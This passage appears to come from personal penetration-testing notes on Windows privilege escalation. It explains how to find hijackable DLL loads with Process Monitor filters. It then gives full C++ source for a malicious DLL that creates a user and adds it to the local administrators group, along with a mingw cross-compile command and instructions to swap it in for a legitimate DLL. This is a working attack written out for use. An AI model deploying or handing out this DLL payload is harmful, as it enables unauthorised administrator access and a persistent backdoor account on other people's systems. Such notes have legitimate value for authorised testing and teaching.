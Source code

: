 Once launched, add a filter such as "Process Name is <APPLICATION.EXE>", wipe the current data and launch the application to see what DLLs are loaded.

We can then filter to only look for `CreateFile` operations, which include creating or accessing existing files. Add the rules:
- "Path contains <VULNERABLE_DLL.dll>"
- "Operation is CreateFile"

Inspect where the DLL is loaded from. If we can overwrite or abuse the DLL loading prioritisation then we can place a malicious DLL there.

### Generating Malicious DLL

Can write a malicious DLL using Microsoft's C++ DLL template:

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DLLMain(
    HANDLE hModule, // Handle to DLL module
    DWORD ul_reason_for_call, // Reason for calling function
    LPVOID lpReserved // Reserved
)
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH:
        int i;
        i = system("net user <USERNAME> <PASSWORD> /add");
        i = system("net localgroup administrators <USERNAME> /add");
        break;
        case DLL_THREAD_ATTACH:
        break;
        case DLL_THREAD_DETACH:
        break;
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Then use `mingw64` to cross-compile:

```
link@kali:~$ x86_64-w64-mingw32-gcc malicious.cpp --shared -o <LEGIT_DLL_NAME.dll>
```

Replace or override legit DLL with this one for a new admin user.


## Windows Privileges

Exploiting Windows privilege misconfigurations. Helpful resource: https://github.com/gtworek/Priv2Admin. Run cmd with admin privileges to be able to carry out exploits such as below:
